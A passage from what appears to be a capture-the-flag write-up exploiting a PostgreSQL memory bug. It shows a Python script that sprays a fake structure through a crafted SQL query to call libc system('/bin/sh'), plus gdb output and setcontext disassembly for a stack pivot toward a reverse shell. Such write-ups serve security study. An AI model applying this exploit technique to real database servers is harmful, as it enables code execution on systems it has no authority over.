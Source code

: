 We have our offset now, and we can easily calculate address where our "fake" structure will be stored. Crafting it is the next step.

In the initial attempt, we tried to call `system` with `/bin/sh`. The following code was used (extended python script used before):

```py
def probe():
    conn.commit(); cur = conn.cursor()

    fake_struct = flat(
        b'/bin/sh\x00',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SYSTEM)
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'aaaaaaaa' * 0x80000,
        fake_struct.hex().encode(),
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

and program crashes here:
```
 ► 0x563514075620 <EOH_get_flat_size>                        mov    rax, qword ptr [rdi + 8]

pwndbg> p/x $rdi
$1 = 0xd2007fc626c1404c
```

`rdi` has wrong MSB - it happens sometimes. To avoid such problem it is enough to just run some random SQL queries before executing our payload. Having that fixed we can do a quick check in `gdb`:

```c
 RDI  0x7f879964f050 ◂— 0x68732f6e69622f /* '/bin/sh' */

 ► 0x7f87a752f3a0 <system>                 test   rdi, rdi
```

Cool, but that approach unfortunately will not work - shell is spawned inside main `postgres` process, and we cannot interact with it. Also eight bytes is not enough to store `/readflag\x00` for `system`. The conclusion is that we need to pop a reverse shell, but we have only one function to call. We were looking for some nice gadgets that will allow us to do a `stack pivot` and craft a simple `ROP chain` in our big chunk of memory. We had a hard time finding a good gadget, so we decided to go with `setcontext` libc function.

```c
pwndbg> disassemble setcontext
Dump of assembler code for function setcontext:
   0x00007f87a7523ef0 <+0>:	push   rdi
   0x00007f87a7523ef1 <+1>:	lea    rsi,[rdi+0x128]
   0x00007f87a7523ef8 <+8>:	xor    edx,edx
   0x00007f87a7523efa <+10>:	mov    edi,0x2
   0x00007f87a7523eff <+15>:	mov    r10d,0x8
   0x00007f87a7523f05 <+21>:	mov    eax,0xe
   0x00007f87a7523f0a <+26>:	syscall
   0x00007f87a7523f0c <+28>:	pop    rdx
   0x00007f87a7523f0d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f87a7523f13 <+35>:	jae    0x7f87a7523f70 <setcontext+128>
   0x00007f87a7523f15 <+37>:	mov    rcx,QWORD PTR [rdx+0xe0]
   0x00007f87a7523f1c <+44>:	fldenv [rcx]
   0x00007f87a7523f1e <+46>:	ldmxcsr DWORD PTR [rdx+0x1c0]
   0x00007f87a7523f25 <+53>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x00007f87a7523f2c <+60>:	mov    rbx,QWORD PTR [rdx+0x80]
```